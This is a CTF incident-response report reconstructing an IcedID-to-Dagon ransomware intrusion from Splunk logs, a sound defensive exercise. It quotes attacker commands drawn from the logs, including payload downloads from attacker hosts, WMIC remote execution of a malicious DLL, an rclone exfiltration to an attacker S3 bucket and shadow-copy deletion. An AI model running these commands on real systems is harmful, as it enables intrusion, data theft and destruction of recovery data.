# Incident Report — IcedID-to-Dagon Ransomware Intrusion

**Environment:** Meridian Group CTF dataset  
**Investigation platform:** Splunk (`index=iceid`)  
**Scenario date:** July 1, 2025  
**Prepared by:** Brian Randall  
**Classification:** Ransomware / double-extortion activity  
**Assessment:** High-confidence incident reconstruction from limited telemetry

## 1. Executive Summary

### Summary

Meridian Group was the victim of a ransomware/double-extortion attack after Domain Controller compromise between 8:57 and 10:55 AM on July 1, 2025, with suspected blast radius including numerous user accounts and a network file system, although further validation is required.

### Initial Foothold:

Initial access via `CORP\dana.k` interacting with a phishing-delivered JavaScript file, `Document_Scan_468.js`, led to endpoint and proxy log indication of the JavaScript script launching `cmd.exe`, retrieving the IceID payload `magni.waut.a` from `moashraya[.]com`, and using native Windows utilities to retrieve and execute the DLL injected 2st stage payload, `C:\ProgramData\update.dll`. The compromised `rundll32.exe` then contacted the C2 destination for the ransomware payload at `winupdate[.]us[.]to` with IP (`51[.]89[.]133[.]3`). 

### Domain Controller Compromise:

The attacker then performed Active Directory reconnaissance via native nltest and net commands, accessed LSASS , and read `\\MER-FS01\Finance\passwords.xlsx`. A subsequent NTLM network logon for `CORP\t.reyes` on Domain Controller `MER-DC01` from compromised workstation `mer-wks-114.corp.local` preceded a remote-management command using native tool WMI, starting the same DLL injection sequence that infected  `CORP\dana.k`, compromising the DLL of `MER-DC01`. Matching source and destination side process identifiers support the lateral-movement reconstruction, although further network and endpoint confirmation is required for malware analysis and full reconstruction of events.

### Post-Compromise Activity:

Post-compromise activity included persistence via AnyDesk remote-management execution on `MER-FS01`, the suspected shared filesystem, where creation and concealment of the local account `oldadministrator` was seen. A gap in credible logs ensued from ~9:25-10:25, where further endpoint investigation is required to validate potential lateral movement and exfiltration activites. Following, exfiltration was indicated by an `rclone.exe` command configured to copy from `MER-FS01` data to an attacker Amazon S3 bucket. After this exfiltration, the attacker executed recovery-inhibition via `vssadmin delete shadows /all /quiet`, deleting shadow copies of the data on `MER-FS01`. Penultimately, the attacker displayed evasion tactics via the clearing of the Windows Security audit log. The last known attacker actions were an execution of `sysfunc.dll` immediately before `.dagoned` file creation, where the filepath `C:\ProgramData\microsoft` indicates the staging file used to store attacker tools and the `\dagoned` file extension represents data encryption on numerous workstations. 

### Attribution:

The evidence supports an IcedID-to-Dagon ransomware attack suspected of using CobaltStrike as a 1st stage payload for Domain Controller compromise. 

The likely objective was double extortion: data theft followed by encryption and recovery inhibition. Given Dagon's prevalence as "Ransomware-as-a-Service", no particular identity has been attributed. The primary source of this conclusion is a cross-reference of the attack chain with the DFIR, ["From IcedID to Dagon locker ransomware in 29 days](https://thedfirreport.com/2024/04/29/from-icedid-to-dagon-locker-ransomware-in-29-days/) and an [Mphasis technical summary](https://www.mphasis.com/content/dam/mphasis-com/global/en/home/services/cybersecurity/icedid-infection-to-dagon-locker-ransomware-apr29-22-7.pdf) of similar events.

### Recommended Action:

The dataset supports urgent containment and recovery actions. 

Current resources do not provide cloud-side transfer records, command exit status, complete host coverage, or a full malware-analysis record. Additionally, the dataset shows a very low number of logs for the timeframe and attacker behaviors, which forced the investigation to rely on hypotheses to move forward; those limitations are kept separate from the operational assessment, which is based in proof, not conjecture. Additional investigation into backup logging sources and/or endpoints/networks affected would aid scoping of containment and recovery actions. 

## 2. Scope, Assumptions, and Limitations

### Scope

The investigation covered the seven sourcetypes supplied in the CTF's `iceid` index, including email, web proxy, network, firewall, Windows Security, and Sysmon telemetry. The work focused on identifying the initial access path, reconstructing attacker behavior, identifying affected systems and accounts, and documenting evidence suitable for SOC escalation.

### Assumptions

- The supplied records are authentic within the CTF scenario.
- The visible Splunk event order is sufficient for behavioral sequencing even where embedded source timestamps differ because of synthetic ingestion.
- A process-creation event establishes that Windows created the recorded process; validation is required prior to claims of successful action.  

### Limitations

- No EDR response actions, volatile-memory capture, disk image, malware sandbox, packet capture, identity-provider audit, or further records were supplied.
- The `rclone.exe` record shows an exfiltration-oriented copy command, but available data fails to disclose what specifically was copied and if this copy was successful.
- Event 4720 proves creation of `oldadministrator`, but no further evidence states the use or group membership of this account; persistence is presumed based on context. 
- OSINT supports the IcedID/Cobalt Strike/Dagon reconstruction, but the supplied evidence does not include static or dynamic analysis of payloads, only a partial behavioral reconstruction.

## 3. Incident Timeline

Times below use the visible Splunk chronology preserved in the evidence screenshots.

| Time              | Activity                                     | Key evidence                                                                                                                                            | Assessment                                                         |
| ----------------- | -------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------ |
| 08:57:35          | Phishing email delivered                     | Proofpoint classified the `Scanned Document 468` URL as malware and identified `dana.k` as recipient                                                    | High confidence                                                    |
| 08:59:06          | JavaScript retrieved                         | Proxy `GET` returned HTTP 200 for `Document_Scan_468.js` from `moashraya[.]com`; client IP `10.25.219.184`                                              | High confidence                                                    |
| 08:59:52          | First-stage command executed                 | `wscript.exe` spawned `cmd.exe`, which used `curl` to retrieve IceID payload `magni.waut.a` from `moashraya[.]com` and store it in `%TEMP%`             | High confidence                                                    |
| 09:00:19          | Scheduled task created                       | Security Event 4698 (scheduled task creation) created `\MicrosoftUpdateSync` as `CORP\dana.k`                                                           | High confidence                                                    |
| 09:02:20          | Second-stage DLL injector retrieved          | PowerShell `DownloadFile` saved a file from `file[.]io` to `C:\ProgramData\update.dll`                                                                  | High confidence                                                    |
| 09:02:45–09:02:47 | C2 activity observed                         | `rundll32.exe` connected to and resolved `winupdate[.]us[.]to` / `51[.]89[.]133[.]3`, known CobaltStrike C2 infrastructure.                             | High confidence                                                    |
| 09:03:47–09:03:56 | AD reconnaissance performed                  | `nltest /dclist:corp` and `net group "Domain Admins" /domain` launched under `dana.k`                                                                   | High confidence                                                    |
| 09:04:52          | LSASS accessed                               | Sysmon Event 10 recorded `rundll32.exe` accessing `lsass.exe` with `GrantedAccess=0x1010`                                                               | Medium confidence for credential dumping                           |
| 09:05:14          | Credential file read                         | Event 4663 (object access) recorded `rundll32.exe` exercising `0x1` (file read) access on `\\MER-FS01\Finance\passwords.xlsx`                           | Medium  confidence for credential access                           |
| 09:07:45          | Domain account authenticated                 | Event 4624 recorded NTLM Logon Type 3 for `CORP\t.reyes` on `MER-DC01` from `10.25.219.184` with an elevated token                                      | High confidence                                                    |
| 09:07:58–09:08:06 | Remote-Management lateral execution          | Source 4688 (process create) launched WMIC; Sysmon Event 1 (process create) indicates execution of `update.dll` on `MER-DC01`                           | High confidence                                                    |
| 09:21:25          | AnyDesk executed                             | Event 4688 (process create) recorded `C:\ProgramData\AnyDesk.exe` on `MER-FS01` as `t.reyes`                                                            | High confidence                                                    |
| 09:21:56–09:22:03 | Local persistence account created and hidden | Event 4720 (account creation) indicated creation of `oldadministrator`; Sysmon Event 13 (Registry Value Set) set its Winlogon `UserList` registry value | High confidence (created) / medium confidence  (persistence)       |
| 10:24:05          | Cloud-copy command launched for Exfiltration | `rclone.exe copy C:\ProgramData\microsoft remote:mer-backup-9f2 --transfers 8 --s3-provider AWS` (seen in Sysmon 1 (process create))                    | High confidence for intent; completion suspected based on behavior |
| 10:54:12          | Recovery-inhibition command launched         | `vssadmin delete shadows /all /quiet` executed on `MER-DC01` (seen in Sysmon 1(process create))                                                         | High confidence for attempted recovery inhibition                  |
| 10:55:13          | Security log cleared                         | Windows Security Event 1102 recorded audit-log clearing by `t.reyes`                                                                                    | High confidence                                                    |
| 10:55:44          | Ransomware payload executed                  | `rundll32.exe C:\ProgramData\microsoft\sysfunc.dll,#1 -lockername sysfunc` preceded `.dagoned` file creation on numerous accounts                       | High confidence                                                    |

## 4. Technical Analysis

### Attack Chain



### 4.1 Initial Access Assessment and Contributing Control Gaps

Proofpoint Email Security Gateway recorded a phishing message with the subject `Scanned Document 468` and `CORP\dana.k` as the recipient at 08:57:35. The proxy then recorded an HTTP 200 `GET` for `Document_Scan_468.js` sourced from `10.25.219.184` to `moashraya[.]com`, indicating Phishing via malicious link at 8:59:06. The endpoint telemetry associated IP `10.25.219.184` with `mer-wks-114.corp.local` and `dana.k`.






This supports potential phishing-link initial access. At this point, the success of malicious activity was undetermined but likely, requiring further documentation of the attacker chain such as child process creation or downstream events.
### 4.2 Execution, Foothold, and Command and Control

Also at 8:59:52, Sysmon Event 1 recorded `wscript.exe` launching `cmd.exe`, including a `curl` command that staged `magni.waut.a`., a known indicator of the `IcedID` malware family from a known staging host, `moashraya[.]com`. 

 

Subsequently, Windows Event 4698 (Scheduled Task Create) recorded creation of `\MicrosoftUpdateSync` from the compromised host, `mer-wks-114.corp.local` at 09:00:19. The task name resembles benign Windows maintenance, but the supplied record does not include its task XML or action; it is assessed as persistence because of its timing, source, and surrounding malicious activity.

At 09:02:20, Sysmon 1 (process create) indicates Powershell used `System.Net.WebClient.DownloadFile` to retrieve a `CobaltStrike` payload, `C:\ProgramData\update.dll` from `file[.]io`, a file share service which acted as a staging server. 




Within seconds, `rundll32.exe` resolved and contacted `winupdate[.]us[.]to` at `51[.]89[.]133[.]3`, known CobaltStrike C2 infrastructure.  



Validation of successful connection was shown via Sysmon 3 (Process-sourced Network Connection) and Sysmon 22 (DNS query), where further validation via attacker behavior is found in the subsequent steps. 

Note: Claims of malware-family were based in corroboration of local evidence with OSINT, specifically, [The DFIR Report's IcedID-to-Dagon case](https://thedfirreport.com/2024/04/29/from-icedid-to-dagon-locker-ransomware-in-29-days/) and the [Mphasis technical summary](https://www.mphasis.com/content/dam/mphasis-com/global/en/home/services/cybersecurity/icedid-infection-to-dagon-locker-ransomware-apr29-22-7.pdf). Claims within this Technical Analysis were based in validated local evidence, not solely on resemblance to OSINT scenarios. 

### 4.3 Discovery and Credential Access

Between 09:03:47 and 09:03:56, the compromised `rundll32.exe` process launched:

- `nltest /dclist:corp`, enumerating domain controllers.
- `net group "Domain Admins" /domain`, enumerating privileged domain-group membership.

Then, at 09:04:52, Sysmon 10 (process access) indicates the compromised DLL accessing `lsass.exe` with `GrantedAccess=0x1010` (read access granted). That permission combination is suspicious and compatible with reading process memory, but the record alone does not prove that credentials were successfully extracted or used from this source.



Promptly after the LSASS access, Windows Event 4663 (object access) and 4656 (secure object access request) provide evidence of secure file access: `dana.k` and `rundll32.exe` successfully read the file `passwords.xlsx` from computer `MER-FS01` under their `Finance` directory, as evidenced by the `0x1` access mask in the 4663 log at 09:05:14. This shows data-read access to a credential-themed network file. It does not show which credentials the file contained, however, the following domain controller authentication and lateral execution support its role in the attack chain.


### 4.4 Lateral Movement and Domain Controller Execution

At 09:07:45, Windows Event 4624 (login success) recorded an NTLM Logon Type 3 (remote logon) for `CORP\t.reyes` on `MER-DC01` from source address `10.25.219.184`, where this IP is associated with compromised user `dana.k` and the logon indicated full privileged access granted.

 

Then at 09:07:58, a source-side Event 4688 (process create) recorded:

```text
wmic /node:MER-DC01 /user:CORP\t.reyes process call create "rundll32 C:\ProgramData\update.dll,HTVIyKUVoTzv"
```

The `rundll32` syntax instructs Windows to load `update.dll` and call the named export. Given the resemblance to CobaltStrike patterns, the `HTVI(...)` export is posited to be a malware entry point, validated by further behavior matching. 

The success of this process call was validated by the destination-side Sysmon Event 1 (process create) at 09:08:06 on `MER-DC01`, where `WMIC.exe` is recorded as the parent of `rundll32.exe`, executing the same DLL and export. The source Event 4688 (Process Create) `NewProcessId` is `0xC4C8`, or decimal `50376`, which matches the destination event's `ParentProcessId=50376`. The command, timing, host, account, and PID correlation jointly support successful WMI remote execution and, consequently, domain controller compromise. 



*Destination-side process creation corroborates the WMI command observed on the compromised workstation.*

### 4.5 Persistence and Continued Access

At 09:21:25, Sysmon 1 (process create) indicates DC-related identity `CORP\t.reyes` launching `C:\ProgramData\AnyDesk.exe` on `MER-FS01`. Then, at 09:21:56, Event 4720 (account creation) recorded creation of `oldadministrator`; and at 09:22:03, Sysmon Event 13 (Registry Value Set) then recorded a registry `SetValue` operation on:

```text
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList\oldadministrator
```

This sequence supports creation and concealment of an additional local account. Account privileges and purpose were not evidenced by the record through either privileged-group membership reference or further inclusion in the attacker chain; attribution of persistence is based in behavior, further validation is required to confirm.

### 4.6 Exfiltration, Recovery Inhibition, and Impact

At 10:24:05, Windows Event 4688 (Process Create) recorded the following command with elevated privileges on `MER-FS01`:

```text
rclone.exe copy C:\ProgramData\microsoft remote:mer-backup-9f2 --transfers 8 --s3-provider AWS
```

This command directs rclone, a cloud storage file manager, to recursively copy the local directory of `MER-FS01` to the configured attacker S3 bucket titled `mer-backup-9f2`. AWS-side records, network-transfer volume, or rclone completion output would be required for exact data volume and successful completion; success is likely given later attacker behavior.



At 10:54:12, `vssadmin.exe` launched with `delete shadows /all /quiet` on `MER-DC01`. This indicates attempted all-shadow-copy deletion on the `MER-DC01` host. Despite the log indicating process launch with SYSTEM-level privileges, it does not prove the command's intended completion or what shadow copies were under `MER-DC01`'s jurisdiction.



Then, at 10:55:13, Windows Event 1102 (audit log cleared) recorded that the Windows Security audit log was cleared, indicating defense evasion via log deletion.

Lastly, at 10:55:44, Sysmon Event 1 (process create) recorded:

```text
rundll32.exe C:\ProgramData\microsoft\sysfunc.dll,#1 -lockername sysfunc
```

Here, `rundll32.exe` loads `sysfunc.dll`, `#1` selects the DLL export by ordinal, and `-lockername sysfunc` is an argument passed to that export. Thereafter, numerous files are displayed with the`.dagoned` extension. When corroborated with campaign research, this supports attribution to Dagon ransomware. A further analysis of encrypted files and compromised accounts was attempted, but due to incomplete logging and lack of additional resources, only weak evidence was shown of blast radius. This warrants a request for further investigative resources prior to validated impact claims.

### 4.7 Key Artifacts and Affected Entities

| Type       | Artifact                               | Analytical use                                                                                              |
| ---------- | -------------------------------------- | ----------------------------------------------------------------------------------------------------------- |
| User       | `CORP\dana.k`                          | Initial compromised user and source of early execution activity                                             |
| Host       | `mer-wks-114.corp.local`               | Initial compromised workstation                                                                             |
| IP address | `10[.]25[.]219[.]184`                  | Source address associated with initial compromise and later DC authentication                               |
| User       | `CORP\t.reyes`                         | Domain account used for authenticated remote execution and later activity                                   |
| Host       | `mer-dc01.corp.local`                  | Domain controller reached via WMI from initial compromised account `dana.k`                                 |
| Host       | `mer-fs01.corp.local`                  | Suspected file server involved in credential-file access, persistence, and exfiltration activity            |
| Account    | `oldadministrator`                     | Local account created by compromised `DC01` and hidden through Winlogon registry configuration              |
| Domain     | `moashraya[.]com`                      | Phishing and first-stage payload delivery infrastructure, suspected IcedID malware family                   |
| Domain     | `winupdate[.]us[.]to`                  | Destination contacted by compromised `rundll32.exe`, suspected CobaltStrike C2 infrastructure.              |
| IP address | `51[.]89[.]133[.]3`                    | Resolved C2 address from `winupdate[.]us[.]to`                                                              |
